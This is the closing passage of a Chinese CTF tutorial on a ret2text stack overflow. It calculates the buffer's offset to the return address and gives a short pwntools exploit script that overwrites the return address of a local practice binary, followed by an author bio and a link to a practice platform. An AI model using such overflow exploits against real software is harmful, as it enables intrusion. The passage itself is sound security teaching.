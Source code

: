 &emsp;&emsp;这里我们看到esp是 0xffffcd40,ebp 为具体的 payload 如下 0xffffcdc8，同时 s 相对于 esp 的索引为 `[esp+0x1c]`，所以，s 的地址为 0xffffcd5c，所以 s 相对于 ebp 的偏移为 0x6C，所以相对于返回地址的偏移为 0x6c+4。

exp如下:

```python
#!/usr/bin/python2
from pwn import *

sh = process('./ret2text')
target = 0x804863a
sh.sendline('A' * (0x6c+4) + p32(target))
sh.interactive()
```

&emsp;&emsp;现在你已经稍微入点高级编程门了.

&emsp;&emsp;如果你对pwn也感兴趣的话可以去[校内ctf练习平台](http://ustb.ever404.com/challenges)上玩一玩(题目很久没更新了...最近更新一下qaq)

---

#### 关于作者及作者内心os

&emsp;&emsp;信安1802某爱猫人士,安全研究员,梦想成为Computer Artist并养一屋子猫

&emsp;&emsp;当你读到这段话的时候...十有八九是前面读不下去了,直接跳到最后看看还有多少...

&emsp;&emsp;我还是要讲几句鼓励你的话:



​												加油,你真棒!

![giveup](./pictures/giveup.jpg)

&emsp;&emsp;

&emsp;&emsp;如果你对本文档持任何异议,请纠缠我的基友原计1805戏曲爱好者孙某.

> PS: 如果你也是爱猫人士或者对计算机安全感兴趣,欢迎与各位大佬交流 (CTF缺队友...qaq
>
> 欢迎Follow我的[github](https://github.com/Explainaur) ^_^